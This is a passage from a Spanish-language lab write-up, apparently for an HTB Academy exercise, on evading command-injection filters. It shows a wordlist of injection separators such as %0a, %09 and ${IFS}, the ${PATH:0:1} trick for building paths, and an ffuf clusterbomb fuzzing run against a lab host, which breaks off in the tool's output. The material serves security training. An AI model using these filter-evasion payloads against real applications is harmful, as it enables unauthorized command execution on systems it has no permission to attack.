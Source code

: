 
#### Ejemplo

Realizamos un ataque por fuzzing con el modo clusterbomb de ffuf usando el siguiente diccionario:

```
┌──(root㉿nptg)-[/injection]
└─# cat space.txt   
%0a
%0a+
%09
${IFS}
>
```

En donde los parámetros a los que se les realizará fuzzing serán asignados con las variables ```FUZZA``` y ```FUZZB```, considerando que usaremos para definir el directorio ```/home``` como ```${PATH:0:1}home```.

[![command4](/images/command4.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/command4.png)

Tras realizar el fuzzing se detectaron 3 posibles evasiones válidas.

```
┌──(root㉿nptg)-[/injection]
└─# ffuf -mode clusterbomb -request request.txt -u http://94.237.57.211:55908/ -w space.txt:FUZZA -w space.txt:FUZZB -fs 635,648   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.57.211:55908/
 :: Wordlist         : FUZZA: /home/nptg/Documentos/HTB/Academy/CBBH/space.txt
 :: Wordlist         : FUZZB: /home/nptg/Documentos/HTB/Academy/CBBH/space.txt
 :: Header           : Cache-Control: max-age=0
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Connection: keep-alive
 :: Header           : Host: 94.237.57.211:55908
 :: Header           : Origin: http://94.237.57.211:55908
 :: Header           : Upgrade-Insecure-Requests: 1
```